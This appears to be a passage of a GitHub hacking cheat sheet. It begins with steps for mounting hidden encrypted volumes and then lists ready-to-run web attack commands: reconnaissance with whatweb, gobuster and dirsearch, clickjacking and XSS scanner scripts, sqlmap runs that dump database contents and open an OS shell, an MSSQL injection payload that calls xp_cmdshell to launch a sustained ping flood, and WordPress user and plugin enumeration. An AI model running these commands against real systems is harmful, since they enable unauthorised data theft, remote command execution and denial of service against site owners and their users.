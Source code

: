 - Decrypt
```
- Select Drive with letter example F
- Select File(device) and select  that file(encrypted)
- Click on Mount and it will need password for Hidden Encrypted Volume
- Dismount
- Select Drive with letter example F
- Select File(device) and select  that file
- Click on Mount and it will need password for Outer Encrypted Volume
- Dismount
```

# WEB AND ANDROID HACKING
- whatweb,dirsearch,SQLMAP, WPSCAN, ADB, BURPSUITE
## Whatweb
```
whatweb http://ip/domain
```
## gobuster
```
gobuster dir -u http://host -w /home/attacker/Desktop/common.txt
```
## dirsearch
```
python3 dirsearch.py -u http://host -x 403
```
## Clickjacks
```
python3 clickJackPoc.py -f domain.txt
```
## PwnXSS
```
python3 pwnxss.py -u http://hosts
```
## SQL INJECTION
- Find bug with burpsuite
- Copy the response and dump databases
```
sqlmap -r response.txt --dbs
sqlmap -r response.txt -D DATABASENAME --tables
sqlmap -r response.txt -D DATABASENAME -T TABLENAME --columns
sqlmap -r response.txt -D DATABASENAME -T TABLENAME -C COLUMNNAME1,COLUMNNAME2 --dump
```
- Copy responce and get shell
```
sqlmap -r response.txt --os-shell
```
## SQL Injection on MSSQL
```
blah';exec master..xp_cmdshell 'ping 10.10.10.10 -l 65000 -t';--
```
## WORDPRESS
- Enumerate target
```
wpscan --url http://wphost --enumerate ap,at,tt,cb,dbe,u,m --api-token <APITOKENINHERE> -t 50
```
